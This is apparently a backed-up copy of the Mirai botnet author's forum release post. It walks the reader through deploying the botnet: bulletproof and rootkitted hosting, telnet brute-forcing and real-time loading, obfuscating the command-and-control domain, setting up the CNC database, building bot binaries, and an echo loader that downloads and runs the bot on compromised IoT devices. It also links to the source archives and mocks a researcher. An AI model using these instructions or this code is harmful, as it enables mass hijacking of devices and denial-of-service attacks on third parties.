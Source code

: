 # Following is a post by Anna-Senpai of hackforums original thread: http://hackforums.net/showthread.php?tid=5420472&highlight=mirai
I'm keeping this here as a backup and for future refrence/ease-of access (for those without HF account). 
-----------------------------------------------------------------------------
Preface
Greetz everybody,

When I first go in DDoS industry, I wasn't planning on staying in it long. I made my money, there's lots of eyes looking at IOT now, so it's time to GTFO. However, I know every skid and their mama, it's their wet dream to have something besides qbot.

So today, I have an amazing release for you. With Mirai, I usually pull max 380k bots from telnet alone. However, after the Kreb DDoS, ISPs been slowly shutting down and cleaning up their act. Today, max pull is about 300k bots, and dropping.

So, I am your senpai, and I will treat you real nice, my hf-chan.

And to everyone that thought they were doing anything by hitting my CNC, I had good laughs, this bot uses domain for CNC. It takes 60 seconds for all bots to reconnect, lol

Also, shoutout to this blog post by malwaremustdie
http://blog.malwaremustdie.org/2016/08/m...-just.html
https://web.archive.org/web/201609302302...-just.html <- backup in case low quality reverse engineer unixfreaxjp decides to edit his posts lol
Had a lot of respect for you, thought you were good reverser, but you really just completely and totally failed in reversing this binary. "We still have better kung fu than you kiddos" don't make me laugh please, you made so many mistakes and even confused some different binaries with my. LOL

Let me give you some slaps back -
1) port 48101 is not for back connect, it is for control to prevent multiple instances of bot running together
2) /dev/watchdog and /dev/misc are not for "making the delay", it for preventing system from hanging. This one is low-hanging fruit, so sad that you are extremely dumb
3) You failed and thought FAKE_CNC_ADDR and FAKE_CNC_PORT was real CNC, lol "And doing the backdoor to connect via HTTP on 65.222.202.53". you got tripped up by signal flow ;) try harder skiddo
4) Your skeleton tool sucks ass, it thought the attack decoder was "sinden style", but it does not even use a text-based protocol? CNC and bot communicate over binary protocol
5) you say 'chroot("/") so predictable like torlus' but you don't understand, some others kill based on cwd. It shows how out-of-the-loop you are with real malware. Go back to skidland

5 slaps for you

Why are you writing reverse engineer tools? You cannot even correctly reverse in the first place. Please learn some skills first before trying to impress others. Your arrogance in declaring how you "beat me" with your dumb kung-fu statement made me laugh so hard while eating my SO had to pat me on the back.

Just as I forever be free, you will be doomed to mediocracy forever.


Requirements
Bare Minimum
2 servers: 1 for CNC + mysql, 1 for scan receiver, and 1+ for loading

Pro Setup (my setup)
2 VPS and 4 servers
- 1 VPS with extremely bulletproof host for database server
- 1 VPS, rootkitted, for scanReceiver and distributor
- 1 server for CNC (used like 2% CPU with 400k bots)
- 3x 10gbps NForce servers for loading (distributor distributes to 3 servers equally)


Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- TABLE_CNC_DOMAIN - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- TABLE_CNC_PORT - Port to connect to, its set to 23 already
- TABLE_SCAN_CB_DOMAIN - When finding bruted results, this domain it is reported to
- TABLE_SCAN_CB_PORT - Port to connect to for bruted results, it is set to 48101 already.

In ./mirai/tools you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
Code:
./build.sh debug telnet
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
Code:
./debug/enc string fuck.the.police.com

The output should look like this
Code:
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​

To update the TABLE_CNC_DOMAIN value for example, replace that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

[/code]
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
[/code]

Now that we know value from enc tool, we update it like this
Code:
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22​", 20); // fuck.the.police.com

Some values are strings, some are port (uint16 in network order / big endian).

Configuring CNC
Code:
apt-get install mysql-server mysql-client
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
Code:
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

Now, go into file ./mirai/cnc/main.go

Edit these values

Code:
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"

To the information for the mysql server you just installed


Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!
[Image: BVc7qJs.png]

2) http://santasbigcandycane.cx/loader.src.zip - THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!

How to build bot + CNC
In mirai folder, there is build.sh script.

Code:
./build.sh debug telnet
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to ./mirai/debug folder

Code:
./build.sh release telnet
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder


Building Echo Loader
Loader reads telnet entries from STDIN in following format: 
Code:
ip:port user:pass
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget. You can find code to compile the tiny downloader stub h ere
http://santasbigcandycane.cx/dlr.src.zip

You need to edit your main.c for the dlr to include the HTTP server IP. The idea is, if the iot device doesn have tftp or wget, then it will echo load this 2kb binary, which download the real binary, since echo loading really slow.
When you compile, place your dlr.* files into the folder ./bins for the loader

Code:
./build.sh
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this

Code:
cat file.txt | ./loader

Remember to ulimit!

Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"
Onii-chan!